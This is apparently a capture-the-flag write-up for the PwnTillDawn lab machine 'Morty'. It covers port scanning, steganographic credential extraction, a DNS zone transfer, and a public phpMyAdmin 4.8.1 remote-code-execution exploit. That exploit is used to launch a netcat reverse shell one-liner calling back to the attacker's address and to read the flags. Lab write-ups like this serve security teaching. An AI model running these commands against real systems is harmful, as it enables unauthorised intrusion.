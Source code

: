 ```yaml
---
categories: [PwnTillDawn]
tags: [Public Exploit, PrivEsc, subdomain]
image:
  path: /Vulnhub-Files/img/Morty/Untitled.png
  alt: Morty -> https://www.wizlynxgroup.com/ , https://online.pwntilldawn.com/
---
```



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.57
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-05 16:22 IST
Nmap scan report for 10.150.150.57
Host is up (0.19s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e8:60:09:66:aa:1f:e8:76:d8:84:16:18:1c:e4:ee:32 (RSA)
|   256 92:09:d3:0e:f9:47:48:03:9f:32:9f:0f:17:87:c2:a4 (ECDSA)
|_  256 1d:d1:b3:2b:24:dc:c2:8a:d7:ca:44:39:24:c3:af:3d (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 147   2020-06-10 11:25  note.html
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

On port 80 I found directory Listing which consist of a file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Morty/Untitled%202.png)

After setting the `/etc/hosts` file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%203.png)

Now lets use this Web Page picture password in SSH , but no luck so I used this password in this picture to extract some data and I got it with this Password : `Fl4sk#!` →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ steghide extract -sf screen.jpeg
Enter passphrase: 
wrote extracted data to "keytotheuniverse.txt".
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ cat keytotheuniverse.txt 
rick:WubbaLubbaDubDub1!
```
{: .nolineno}
{: .nolineno}

Now again I tried for SSH but no luck , what to do →

After sometime I looked for subdomain or subdomains and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ dig axfr @10.150.150.57 mortysserver.com 

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.150.150.57 mortysserver.com
; (1 server found)
;; global options: +cmd
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
mortysserver.com.	900	IN	NS	10.150.150.57.
rickscontrolpanel.mortysserver.com. 900	IN A	10.150.150.57
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
;; Query time: 187 msec
;; SERVER: 10.150.150.57#53(10.150.150.57) (TCP)
;; WHEN: Sat Aug 05 16:48:59 IST 2023
;; XFR size: 4 records (messages 1, bytes 212)
```
{: .nolineno}
{: .nolineno}

Now I have 2 subdomains →

Lets look at them →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%204.png)

```bash
FLAG1=921e4db975bda77543cfe83fbe176d15e09ce7e2
```
{: .nolineno}
{: .nolineno}

Now I used the rick credentials and got logged in and got the 2nd Flag too →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%205.png)

```bash
FLAG2=e39c995fbf614c5c38ca7343f59cc310e5880251
```
{: .nolineno}
{: .nolineno}

Now I searched the phpmyAdmin exploit and I got it →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%206.png)

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ searchsploit phpMyAdmin 4.8.1
----------------------------------------------------------------------
 Exploit Title                                                                                |  Path
----------------------------------------------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                   | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                   | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                                                | php/webapps/50457.py
----------------------------------------------------------------------
Shellcodes: No Results
```
{: .nolineno}
{: .nolineno}

Now lets use the RCE exploit in this case →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' whoami  
www-data
```
{: .nolineno}
{: .nolineno}

Since it is working so lets upload the reverse shell script here →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.66.67.202 4444 >/tmp/f'
```
{: .nolineno}
{: .nolineno}

In response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.66.67.202] from (UNKNOWN) [10.150.150.57] 40096
/bin/sh: 0: cant access tty; job control turned off
$ 
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ whoami
whoami
www-data
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$
```
{: .nolineno}
{: .nolineno}

Now I got the last FLAG →

```bash
www-data@morty:/home/morty$ cat FLAG3.txt
cat FLAG3.txt
73ce6cecfc1109f1e43d379fd9922dcc699af321
www-data@morty:/home/morty$
```
{: .nolineno}
{: .nolineno}

And I do not get to root since it doesnt give anything to get me to root so finish !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }